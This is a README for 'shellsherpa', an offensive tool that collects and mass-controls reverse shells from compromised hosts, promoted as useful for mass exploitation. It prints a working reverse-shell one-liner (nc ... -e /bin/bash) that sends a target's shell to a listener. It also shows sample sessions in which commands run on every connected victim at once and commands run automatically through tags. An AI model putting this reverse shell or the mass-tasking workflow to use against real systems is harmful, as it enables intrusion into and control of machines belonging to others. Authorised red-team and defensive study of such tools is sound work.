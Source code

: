# shellsherpa
A multi-client server for managing and mass tasking of simple socket reverse shells (nc/ncat/etc)

Useful when doing mass exploitation

```
usage: shellsherpa.py [-h] [--out OUT] [--pem PEM] [--key KEY] port

Manage shells

positional arguments:
  port        Port to listen on.

optional arguments:
  -h, --help  show this help message and exit
  --out OUT   Directory where to put output
  --pem PEM   Required to make it SSL. Path of PEM file
  --key KEY   Required to make it SSL. Path of key file.
```

Standard example (no output directory) to listen on 4444:
```
python3 shellsherpa.py 4444
-+- ShellSherpa -+-

> help

Documented commands (type help <topic>):
========================================
addtag      exit  removetag  sessions  settagautos
disconnect  help  run        settag    tags       
```

Then run any standard TCP shell on the target(s):
```
nc 192.168.1.51 4444 -e /bin/bash
```

Running commands:
```
...
> Connection: ('192.168.1.189', 60498)

> run * id

[0xc6wk4j - 192.168.1.189]: id.20200513202043
 uid=1000(bob) gid=1000(bob) groups=1000(bob)...
 
 >
```

Tags are used to distinguish between shells and allow the tasking of groups. Using `settag` to auto tag new shells with a given tag. Each shell automatically gets a tag with a UUID and its public IP:

```
## We already had a callback from 192.168.1.189
...
> settag bleh  # all new connections will get this tag
bleh> Connection: ('192.168.1.190', 60476)

bleh> sessions
+--------------+---------------+-------------------------------+
| Session UUID |       IP      |              Tags             |
+--------------+---------------+-------------------------------+
|   04x5fslb   | 192.168.1.189 |    04x5fslb, 192.168.1.189    |
|   0xc6wk4j   | 192.168.1.190 | 0xc6wk4j, 192.168.1.190, bleh | # Note how the new callback get the 'bleh' tag
+--------------+---------------+-------------------------------+
```

Use addtag and removetag to add or remove tags to groups/individual shells (by using their tags!). `*` can be used to selecting all shells.

settagautos will recieve a line seperated list of shell commands to run automatically on shells with a given tag. Its done this way if you will be shifting your default tag. 

Example file:
```
id
whoami
uname -a
```
